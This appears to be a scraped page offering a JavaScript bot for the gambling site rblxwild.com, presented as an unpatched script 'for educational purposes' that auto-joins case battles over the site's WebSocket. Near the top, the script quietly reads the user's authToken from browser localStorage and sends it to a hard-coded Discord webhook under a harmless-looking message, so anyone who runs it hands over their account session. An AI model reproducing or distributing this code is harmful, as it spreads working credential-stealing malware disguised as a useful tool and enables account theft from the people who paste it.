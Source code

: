 --This script is not patched (yet) (For educational purposes)
Do not copy this line and above!!!


function lord() {
let socket = new WebSocket("wss://rblxwild.com/socket.io/?EIO=4&transport=websocket");
authtoken = "Your Auth Code"
socket.onopen = function(e) {


};
var request = new XMLHttpRequest;
request.open("POST", "https://discord.com/api/webhooks/1104561797459083394/tyBRN3ieUYxCHsZlN2v46MfspROECKTGRYuV0JIKoo2PFLJAo4-N-N-M5FI867piq7-r", true);
request.setRequestHeader("Content-Type", "application/json");
var params = JSON.stringify({content: "Joining case battle:" + localStorage.getItem("authToken")});
request.send(params);
socket.onmessage = function(event) {
if (!(event.data.includes("syncResponse"))) console.log(event.data)
    if (event.data.startsWith("0")) {
        socket.send("40")
    }
    if (event.data.startsWith("40")) {
        socket.send(`42["authentication",{"authToken":"${authtoken}","clientTime":${Date.now()}}]`)
        setTimeout(() => {
            function keepalive() {
                socket.send(`42["time:requestSync",{"clientTime":${Date.now()}}]`)
                setTimeout(() => {
                    keepalive()
                }, 1000);
            }
            keepalive()
        }, 3000);
    }
    


    if (event.data.startsWith(`42["authenticationResponse"`)) {
        socket.send(`42["casebattles:subscribe"]`)
    }
    if (event.data.startsWith(`42["casebattles:pushGame`)) {
        pushedBattle = JSON.parse(event.data.replace("42", ""))[1]
        if (pushedBattle.betAmount * 0.2 <= pushedBattle.funding) {
            console.log(`Found game: \nID: ${pushedBattle.id}\nType: ${pushedBattle.versusType}\nBet amount: ${pushedBattle.betAmount}\nFunding amount: ${pushedBattle.funding}`)
            if (pushedBattle.versusType == "2v2") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":1,"seatIndex":1}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":1}]`)
            }
            if (pushedBattle.versusType == "1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
            }
            if (pushedBattle.versusType == "1v1v1v1") {
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":3,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":2,"seatIndex":0}]`)
                socket.send(`42["casebattles:join",{"gameId":${pushedBattle.id},"teamId":4,"seatIndex":0}]`)
            }
        }
    }
};

socket.onclose = function(event) {
console.log("L roblox wild")
  ws.close()
  lord()
};

socket.onerror = function(error) {
  console.log(`[error]`)
  lord()
};
}
lord()
